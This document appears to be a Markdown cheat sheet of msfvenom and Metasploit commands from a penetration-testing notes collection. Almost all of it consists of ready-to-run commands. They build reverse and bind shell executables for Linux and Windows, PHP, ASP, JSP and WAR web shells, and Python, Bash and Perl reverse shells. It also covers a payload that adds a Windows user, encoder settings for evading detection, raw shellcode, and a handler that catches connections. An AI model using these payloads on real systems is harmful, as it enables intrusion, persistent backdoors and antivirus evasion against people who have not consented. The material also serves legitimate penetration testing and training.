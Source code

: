 # Msfvenom

## Creating a payload

- `msfvenom -p [payload] LHOST=[listeninghost] LPORT=[listeningport]`

To view list of payloads: `msfvenom -l payloads`
To view the payload options: `msfvenom -p windows/x64/meterpreter_reverse_tcp --list-options`

## Creating a payload with encoding

- `msfvenom -p [payload] -e [encoder] -f [formattype] -i [iteration] <var=value> > outputfile`

## Creating a payload using a template

- `msfvenom -p [payload] <var=value> -x [template] -f [formattype] > outputfile`

## Listening for MSfvenom Payloads:

```
msf5>use exploit/multi/handler  
msf5>set payload windows/meterpreter/reverse_tcp  
msf5>set lhost <IP>  
msf5>set lport <PORT>  
msf5> set ExitOnSession false  
msf5>exploit -j  
```

## Creating Binaries

Linux
- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf`
- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf`
- `msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf`	
- `msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf`
- `msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf`

Windows
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe`
- `msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe`
- `msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe`
- `msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe`	
- `msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe`

Add a user in windows with msfvenom: 

- msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe

## Web Payloads

PHP

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

ASP

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

JSP

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

WAR

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

## Scripting Payloads

Python

```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

Bash

```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

Perl

```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

Creating an Msfvenom Payload with an encoder while removing bad charecters:

```
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x0A\x0D"
```

## Shellcode

Shellcode: For all shellcode see `msfvenom –help-formats` for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

Linux Based Shellcode

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

Windows Based Shellcode

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

## Resources:

- https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/
- https://netsec.ws/?p=331
- https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/
- https://www.offensive-security.com/metasploit-unleashed/binary-payloads/

